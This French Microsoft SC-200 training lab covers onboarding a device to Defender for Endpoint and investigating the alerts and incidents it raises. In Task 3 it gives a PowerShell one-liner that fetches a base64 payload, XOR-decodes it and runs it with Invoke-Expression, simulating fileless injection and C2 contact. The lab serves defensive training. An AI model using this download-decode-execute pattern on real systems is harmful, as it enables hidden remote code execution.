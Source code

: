 ```yaml
---
lab:
  title: "Exercice 2\_-\_Atténuer les attaques avec Micrsoft Defender for Endpoint"
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Parcours d'apprentissage 2 - Labo 1 - Exercice 2 - Atténuer les attaques avec Microsoft Defender for Endpoint

## Scénario du labo

![Vue d’ensemble du labo](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Vous êtes un analyste des opérations de sécurité travaillant dans une entreprise qui implémente Microsoft Defender pour point de terminaison. Votre responsable prévoit d’intégrer quelques appareils afin de fournir des informations sur les modifications requises des procédures de réponse de l’équipe chargée des opérations de sécurité.

Pour explorer les fonctionnalités d’atténuation des risques d’attaque Defender for Endpoint, vous allez vérifier que l’intégration de l’appareil a réussi et examiner les alertes et incidents créés pendant ce processus.

>**Remarque :** Une **[simulation de labo interactive](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** est disponible et vous permet de progresser à votre propre rythme. Il peut exister de légères différences entre la simulation interactive et le labo hébergé. Toutefois, les concepts et idées de base présentés sont identiques.

### Tâche 1 : Vérifier l’intégration de l’appareil

Dans cette tâche, vous allez confirmer que l’appareil a été intégré avec succès et créer une alerte de test.

1. Si vous n’êtes pas encore sur le portail Microsoft Defender XDR dans votre navigateur Microsoft Edge, accédez à https://security.microsoft.com) et connectez-vous en tant qu’administrateur pour votre tenant.

1. Dans le menu de gauche, sous la zone **Ressources** , sélectionnez **Appareils**. Veuillez patienter jusqu’à ce que WIN1 apparaisse sur la page Appareils avant de continuer. Sinon, vous devrez peut-être répéter cette tâche pour voir les alertes qui seront générées ultérieurement.

    >**Remarque :** si vous avez terminé le processus d’intégration et que vous ne voyez pas d’appareils sur la liste Appareils au bout d’une heure, cela peut indiquer un problème d’intégration ou de connectivité.

1. Sélectionnez **Paramètres** dans la barre de menus de gauche, puis, sur la page Paramètres, choisissez **Points de terminaison**.

1. Sélectionnez **Intégration** dans la section Gestion des appareils, puis vérifiez si *« Windows 10 et Windows 111 »* est sélectionné comme système d’exploitation. Le message *« Premier appareil intégré »* affiche désormais *Terminé*.

1. Faites défiler la page vers le bas puis, sous la section *« 2. Exécuter un test de détection »,* puis copiez le script de test de détection en sélectionnant le bouton **Copier**.  

1. Dans la barre de recherche Windows de la machine virtuelle WIN1, tapez **CMD** et choisissez **Exécuter en tant qu’administrateur** dans le volet droit de l’application Invite de commandes.

1. Lorsque la fenêtre « Contrôle de compte d’utilisateur » apparaît, sélectionnez **Oui** pour autoriser l’exécution de l’application. 

1. Collez le script en cliquant avec le bouton droit dans les fenêtres d’invite **Administrateur : Invite de commande**, ppuis appuyez sur **Entrée** pour l’exécuter.

    >**Remarque :** La fenêtre se ferme automatiquement après l’exécution du script et, après quelques minutes, les alertes sont générées dans le portail Microsoft Defender XDR.

### Tâche 2 : Examiner les alertes et les incidents

Dans cette tâche, vous allez examiner les alertes et les incidents générés par le script de test de détection d’intégration dans la tâche précédente.

1. Dans le portail Microsoft Defender XDR, sélectionnez **Incidents et alertes** dans le menu de gauche, puis **Alertes**.

1. Dans le volet **Alertes**, sélectionnez l’alerte nommée *Ligne de commande PowerShell suspecte* pour charger ses détails.

1. Passez en revue la chronologie *Historique de l’alerte*, puis les onglets *Détails* et *Recommandations*.

    >**Remarque :** Sous l’onglet *Détails* de l’alerte, vous pouvez faire défiler jusqu’à la section *Détails de l’incident* et sélectionner le lien *Incident d’exécution sur un point de terminaison* pour ouvrir l’incident.

1. Dans le portail Microsoft Defender XDR, sélectionnez **Incidents et alertes** dans le menu de gauche, puis **Incidents**.

1. Un nouvel incident appelé *Incident d’exécution sur un point de terminaison* se trouve dans le volet droit. Sélectionnez le nom de l’incident pour charger ses informations.

1. Sélectionnez le lien **Gérer l’incident** (avec une icône de crayon) et un nouveau panneau de fenêtre s’affiche.

1. Sous **Balises d’incident**, tapez « Simulation », puis sélectionnez **Simulation (Créer)** pour créer une balise.

1. Sélectionnez le bouton bascule **Attribuer à** et ajoutez votre compte d’utilisateur (Moi) en tant que propriétaire de l’incident.

1. Sous **Classification**, développez le menu déroulant.

1. Sous **Informational, activité  attendue**, sélectionnez **Test de sécurité**.

1. Ajoutez des commentaires si vous le souhaitez, puis sélectionnez **Enregistrer** pour mettre à jour l’incident et quitter la page.

1. Passez en revue le contenu des onglets  *Histoire d’attaque, Alertes, Ressources, Investigations, Preuve et réponse* et *Résumé*. Les appareils et les utilisateurs se trouvent sous l’onglet *Ressources*. Dans un vrai incident, l’onglet *Historique de l’attaque* affiche le *graphique de l’incident*. **Conseil :** Certains onglets risquent d’être masqués en raison de la taille de votre écran. Sélectionnez l’onglet représentant des points de suspension (...) pour les afficher.

### Tâche 3 : Simuler une attaque

>**Avertissement :** Cette attaque simulée constitue une excellente source d’apprentissage via la pratique. Effectuez uniquement l’attaque dans les instructions fournies pour ce labo lors de l’utilisation du cours fourni au tenant Azure.  Vous pouvez effectuer d’autres attaques simulées *après* avoir effectué ce cours de formation avec ce tenant.

Dans cette tâche, vous allez simuler une attaque sur la machine virtuelle WIN1 et vérifier la détection et l’atténuation de l’attaque par Microsoft Defender for Endpoint.

1. Sur la machine virtuelle WIN1, *cliquez avec le bouton droit* sur **Démarrer**, puis choisissez **Windows PowerShell (admin)**.

1. Lorsque la fenêtre « Contrôle de compte d’utilisateur » apparaît, sélectionnez **Oui** pour autoriser l’exécution de l’application.

1. Copiez et collez le script de simulation suivant dans la fenêtre PowerShell, puis appuyez sur **Entrée** pour l’exécuter :

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Remarque :** Si vous rencontrez des erreurs (en rouge) lors de l’exécution du script, vous pouvez ouvrir l’application Bloc-notes et copier le script dans un fichier vide. Vérifiez que *Retour automatique à la ligne* est activé dans Bloc-notes. Copiez et exécutez séparément chaque ligne du script dans PowerShell.

1. Le script génère plusieurs lignes de sortie et un message indiquant *Impossible de résoudre les contrôleurs de domaine dans le domaine*. Quelques secondes plus tard, l’application *Bloc-notes* s’ouvre. Un code d’attaque simulé est injecté dans Bloc-notes. Laissez l’instance Bloc-notes générée automatiquement ouverte pour expérimenter le scénario complet. Le code d’attaque simulé va tenter de communiquer avec une adresse IP externe (simulant un serveur C2).

### Tâche 4 : Examiner l’attaque simulée en tant qu’incident unique

1. Dans le portail Microsoft Defender XDR, sélectionnez **Incidents et alertes** dans le menu de gauche, puis **Incidents**.

1. Un nouvel incident appelé *Incident à plusieurs étapes impliquant le contournement de la défense et la découverte sur un point de terminaison* se trouve dans le volet droit. Sélectionnez le nom de l’incident pour charger ses informations.

1. Sous l’onglet *Historique de l’attaque*, réduisez les volets **Alertes** et **Détails de l’incident** pour afficher le **Graphique de l’incident** complet.

1. Placez la souris au-dessus et sélectionnez les **Nœuds du graphique de l’incident** pour passer en revue les *entités*.

1. Développez à nouveau le volet **Alertes** (côté gauche) et sélectionnez l’icône **Lire l’historique de l’attaque** *Exécuter*. Cela montre la chronologie de l’attaque alerte par alerte et remplit dynamiquement le *Graphique Ide l’incident*.

1. Passez en revue le contenu des onglets  *Histoire d’attaque, Alertes, Ressources, Investigations, Preuve et réponse* et *Résumé*. Les appareils et les utilisateurs se trouvent sous l’onglet *Ressources*. **Conseil :** Certains onglets risquent d’être masqués en raison de la taille de votre écran. Sélectionnez l’onglet représentant des points de suspension (...) pour les afficher.

1. Sous l’onglet **Preuve et réponse**, sélectionnez **Adresses IP**, puis sélectionnez l’*Adresse IP* affichée. Dans la fenêtre contextuelle, passez en revue les détails de l’adresse IP et faites défiler vers le bas de l’écran, puis sélectionnez le bouton **Ouvrir la page d’adresse IP**.

1. Passez en revue le contenu de la page *Adresse IP*, des onglets *Vue d’ensemble, Incidents et alertes et Observé dans les organisations*. Il est possible que certains onglets ne contiennent pas d’informations relatives à l’adresse IP.

## Vous avez terminé le labo
